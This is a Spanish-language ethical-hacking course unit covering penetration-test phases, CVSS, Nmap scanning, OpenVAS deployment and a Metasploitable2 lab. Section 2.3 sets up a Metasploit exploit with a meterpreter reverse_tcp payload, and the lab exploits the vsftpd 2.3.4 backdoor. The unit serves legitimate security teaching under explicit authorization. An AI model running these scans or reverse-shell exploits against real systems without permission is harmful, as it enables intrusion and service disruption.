

# UD 7: Auditoría de Seguridad, Vulnerabilidades y Hacking Ético

!!! info "Ficha Técnica de la Unidad"
    * **Resultados de Aprendizaje (RA):** RA3 - Asegura la privacidad de la información transmitida en redes reconociendo vulnerabilidades e instalando software específico.
    * **Criterios de Evaluación (CE):** e) Se han descrito las fases de un test de penetración; f) Se han utilizado herramientas de escaneo de vulnerabilidades; g) Se ha elaborado un informe técnico de auditoría de seguridad.
    * **Tecnologías Involucradas:** [Nmap y OpenVAS](../tech/nmap-openvas.md)
    * **Marcos y Estándares:** NIST SP 800-115 (Technical Guide to Information Security Testing and Assessment); OWASP Testing Guide; PTES (Penetration Testing Execution Standard); CVE/CVSS (Common Vulnerability Scoring System).

---

## 📖 1. Fundamentos Teóricos y Arquitectura de Seguridad

### 1.1 Marco legal y ético del hacking ético

!!! danger "Alerta Crítica y Bastionado (CIS / CCN-CERT)"
    Todo test de intrusión debe realizarse **exclusivamente** dentro de un marco de **autorización explícita y por escrito** (contrato de prestación de servicios / *Rules of Engagement*, RoE) que defina alcance, ventanas horarias y sistemas excluidos. Escanear o atacar sistemas sin autorización constituye un delito tipificado (en España, arts. 197 y 264 del Código Penal). El laboratorio de esta unidad se realiza **exclusivamente sobre entornos propios y controlados**.

### 1.2 Fases de un test de penetración (PTES / NIST SP 800-115)



### 1.3 Sistema de puntuación CVSS

El **CVSS (Common Vulnerability Scoring System)** clasifica la severidad de una vulnerabilidad en una escala de 0 a 10, en base a métricas de **explotabilidad** (vector de ataque, complejidad, privilegios requeridos) e **impacto** (confidencialidad, integridad, disponibilidad).

| Rango CVSS | Severidad | Prioridad de remediación |
|---|---|---|
| 9.0 - 10.0 | Crítica | Inmediata (horas) |
| 7.0 - 8.9 | Alta | Corto plazo (días) |
| 4.0 - 6.9 | Media | Planificada (semanas) |
| 0.1 - 3.9 | Baja | Backlog de mejora continua |

!!! note "Normativa y Estándares (ENS / ISO 27001 / RFC)"
    **NIST SP 800-115** distingue entre técnicas de **revisión** (análisis de configuración sin interacción activa), **identificación y análisis de objetivos** (escaneo activo, sin explotación) y **validación de objetivos** (explotación controlada, requiere el mayor nivel de autorización y cuidado). Escalar de una fase a otra sin la autorización correspondiente en el RoE es una violación grave del marco ético.

---

## ⚙️ 2. Configuración Avanzada, Despliegue y Hardening

### 2.1 Reconocimiento y escaneo con Nmap

```bash title="Escaneo de descubrimiento y enumeracion de servicios" linenums="1"
# Descubrimiento de hosts vivos en la red (sin escanear puertos aun)
nmap -sn 10.10.10.0/24

# Escaneo SYN (stealth) de los 1000 puertos mas comunes con deteccion de version
nmap -sS -sV -O --top-ports 1000 10.10.10.50

# Escaneo completo de los 65535 puertos TCP (mas lento, exhaustivo)
nmap -p- -sS -T4 10.10.10.50

# Ejecucion de scripts NSE para deteccion de vulnerabilidades conocidas
nmap --script vuln -p 80,443,22 10.10.10.50

# Escaneo UDP de los servicios mas comunes (mas lento, requiere privilegios)
nmap -sU --top-ports 100 10.10.10.50
```

```bash title="Salida estructurada para integracion en pipelines de auditoria" linenums="1"
nmap -sV -oX escaneo_resultado.xml 10.10.10.0/24
xsltproc escaneo_resultado.xml -o informe_escaneo.html
```

### 2.2 Escaneo de vulnerabilidades autenticado con OpenVAS/Greenbone

```bash title="Despliegue de OpenVAS (Greenbone Community Edition) via contenedor" linenums="1"
docker pull greenbone/gvm
docker run -d -p 443:443 --name gvm greenbone/gvm

# Actualizar feed de vulnerabilidades (NVTs, CVEs) tras el primer arranque
docker exec -it gvm greenbone-feed-sync --type GVMD_DATA
docker exec -it gvm greenbone-feed-sync --type SCAP
docker exec -it gvm greenbone-feed-sync --type CERT
```

!!! tip "Buenas Prácticas Sysadmin / SecOps"
    Un **escaneo autenticado** (con credenciales válidas del sistema objetivo) proporciona resultados mucho más precisos que un escaneo no autenticado: permite verificar versiones exactas de paquetes instalados, parches aplicados y configuraciones internas, reduciendo drásticamente los falsos positivos frente a un escaneo puramente basado en fingerprinting de red.

### 2.3 Explotación controlada con Metasploit Framework (laboratorio)

```bash title="Flujo basico de explotacion en entorno de laboratorio" linenums="1"
msfconsole -q

# Dentro de msfconsole:
search type:exploit cve:2021-XXXXX
use exploit/multi/http/ejemplo_vulnerabilidad
set RHOSTS 10.10.10.50
set RPORT 443
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.5
exploit
```

!!! warning "Vector de Ataque y Vulnerabilidad"
    La ejecución de módulos de explotación, incluso en laboratorio, debe realizarse siempre contra **máquinas vulnerables intencionadamente diseñadas para práctica** (Metasploitable, DVWA, VulnHub, HackTheBox en modo autorizado) y jamás contra sistemas de producción sin una ventana de mantenimiento específica y autorización expresa, dado el riesgo real de causar una caída de servicio (DoS no intencionado) durante la explotación.

---

## 🛠️ 3. Laboratorio Práctico Dirigido

!!! example "Laboratorio Práctico Paso a Paso"
    **Objetivo:** Ejecutar un ciclo completo de auditoría sobre una máquina vulnerable de laboratorio (Metasploitable2), desde el reconocimiento hasta el informe de hallazgos.

    **Paso 1 — Reconocimiento y escaneo de puertos:**
    ```bash
    nmap -sS -sV -O 10.10.99.20
    ```

    **Paso 2 — Enumeración de vulnerabilidades conocidas por versión de servicio:**
    ```bash
    nmap --script vuln -p 21,22,80,139,445,3306 10.10.99.20
    ```

    **Paso 3 — Escaneo de vulnerabilidades con OpenVAS**, configurando un objetivo (`Target`) y una tarea (`Task`) contra la misma IP, revisando el informe generado en la interfaz web (`https://localhost`).

    **Paso 4 — Explotación controlada de una vulnerabilidad conocida** (ej. `vsftpd 2.3.4 backdoor`, presente intencionadamente en Metasploitable2) usando Metasploit, y documentar el vector, la prueba de concepto y el impacto obtenido.

    **Paso 5 — Elaborar el informe técnico** siguiendo la estructura: Resumen ejecutivo → Metodología → Hallazgos ordenados por CVSS → Evidencias (capturas/logs) → Recomendaciones de remediación priorizadas.

    **Criterio de éxito:** el informe identifica correctamente al menos 3 vulnerabilidades con su puntuación CVSS, incluye evidencia reproducible de al menos una explotación, y propone remediaciones técnicas concretas y priorizadas.

---

## 🛡️ 4. Monitoreo, Análisis de Eventos y Respuesta a Incidentes

Durante un ejercicio de auditoría autorizado, es fundamental verificar que los controles de detección desplegados en unidades anteriores (Suricata IDS/IPS, UD5; Fail2ban, UD6) generan las alertas esperadas — esto valida no solo las vulnerabilidades del objetivo, sino la **eficacia real de la capacidad de detección** de la organización.

```bash title="Correlacion entre actividad de escaneo propia y alertas generadas" linenums="1"
jq 'select(.event_type=="alert" and .src_ip=="<IP_MAQUINA_AUDITORA>")' /var/log/suricata/eve.json
```

!!! note "Normativa y Estándares (ENS / ISO 27001 / RFC)"
    Un hallazgo habitual y valioso en auditorías internas: si el escaneo propio **no genera ninguna alerta** en el IDS/IPS desplegado, esto constituye en sí mismo un hallazgo crítico de auditoría — indica que la capacidad de detección de la organización tiene brechas significativas, independientemente de las vulnerabilidades técnicas encontradas en el objetivo.

---

## ❓ 5. Casos Prácticos y Autoevaluación Técnica

**Caso 1 — Vulnerabilidad crítica sin parche disponible (día cero).** *Resolución:* documentar como hallazgo crítico con recomendación de mitigación compensatoria inmediata (aislamiento de red, regla WAF/IDS específica) hasta que el proveedor publique parche, y establecer seguimiento activo del CVE.

**Caso 2 — Falso positivo de OpenVAS en un servicio con versión personalizada.** El escáner reporta una vulnerabilidad basándose solo en el número de versión del banner, que en realidad ya incluye un backport del parche. *Resolución:* verificar manualmente contra el changelog del proveedor/distribución y documentar el falso positivo con evidencia, ya que los escáneres automatizados basados en versión son propensos a esta imprecisión frente a backports de seguridad.

**Caso 3 — Denegación de servicio accidental durante el pentest.** Un escaneo agresivo (`-T5`, sin limitación) tumba un servicio legacy frágil en producción. *Resolución:* esto confirma la importancia crítica de definir ventanas de mantenimiento y ritmo de escaneo (`-T2`/`-T3`) en el RoE para sistemas de producción, y disponer de un plan de comunicación inmediata con el cliente/responsable del sistema ante cualquier incidencia durante el test.

**Caso 4 — Credenciales por defecto encontradas en un dispositivo de red.** *Resolución:* hallazgo de severidad crítica (CVSS típicamente >9.0 por facilidad de explotación e impacto total); recomendar rotación inmediata y auditoría de todo el inventario de dispositivos de red en busca de credenciales por defecto no cambiadas tras el despliegue inicial.

**Caso 5 — Discrepancia entre el escaneo autenticado y no autenticado.** El escaneo no autenticado no detecta una vulnerabilidad local de escalada de privilegios que sí aparece en el escaneo autenticado. *Resolución:* esto ilustra por qué ambos tipos de escaneo son complementarios y no sustituibles entre sí: el escaneo no autenticado simula la perspectiva de un atacante externo sin acceso previo, mientras que el autenticado simula el riesgo de un atacante que ya obtuvo acceso limitado (insider, cuenta comprometida) y busca escalar privilegios.
